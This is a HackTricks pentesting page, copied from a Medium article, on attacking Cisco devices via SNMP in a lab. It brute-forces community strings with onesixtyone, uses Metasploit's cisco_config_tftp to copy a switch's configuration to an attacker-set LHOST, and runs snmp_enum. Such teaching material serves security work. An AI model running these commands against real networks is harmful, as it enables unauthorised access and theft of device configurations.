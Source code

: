 # Cisco SNMP

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

This page was copied from [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

## Configuration exfiltration and enumeration via SNMP <a href="#e21c" id="e21c"></a>

**SNMP (Simple Network Management Protocol)** is a protocol that allows you to monitor the status of devices on a computer network. It can be network equipment, IP phones, corporate servers or anything else.

**SNMP uses the UDP transport layer protocol with port numbers 161/UDP and 162/UDP.** So-called community strings are used to refer SNMP agents to the server. These are, shall we say, special passwords for communicating with the SNMP server. **Community strings have either RO (read-only) or RW (read-write) permissions.**

**Actually, SNMP can not only monitor the equipment status, but also manage it in full: dump configs, change the configuration, etc.** If a pentester can look up the value of community strings, he actually gains access to the equipment. **However, it all depends on which string he bruteforced— to RO or RW community string.**

**Bruteforce community strings can be implemented using the** [**onesixtyone**](https://github.com/trailofbits/onesixtyone) **utility.** It will take as input the dictionary for bruteforcing and the IP addresses of the target hosts. The targets will be:

* **10.10.100.10 — Cisco vIOS Switch**
* **10.10.100.254 — Cisco vIOS Router**

```
~$ onesixtyone -c communitystrings -i targets
```

We found out what community strings are used on those devices. This opens the way for us to exploititation.

### 8.1 cisco\_config\_tftp <a href="#1dbf" id="1dbf"></a>

With the Metasploit framework, namely the **cisco\_config\_tftp** module, you can pull the device configuration by knowing the value of the community string. The string that has the rights to the RW is **private**.

We will need the following:

* **RW community string (COMMUNITY)**
* **Attacker’s IP address (LHOST)**
* **Target equipment IP address (RHOSTS)**
* **the path in which the module outputs the configuration of the device (OUTPUTDIR)**

```bash
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set COMMUNITY private
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set LHOST 10.10.100.50
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set OUTPUTDIR /home/necreas1ng/snmp
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > exploit
```

After starting the module, the host configuration with address 10.10.100.10 (10.10.100.10.txt) will be downloaded to the specified folder.

![](<../../.gitbook/assets/image (223).png>)

### 8.2 snmp\_enum <a href="#3429" id="3429"></a>

With this module you can find out information about the target hardware. Everything is exactly the same: specify **COMMUNITY** (by the way, even a string with **RO permissions will do**) and the IP address of the target device.

```bash
msf6 auxiliary(scanner/snmp/snmp_enum) > set COMMUNITY public
msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/snmp_enum) > exploit
```

<figure><img src="../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
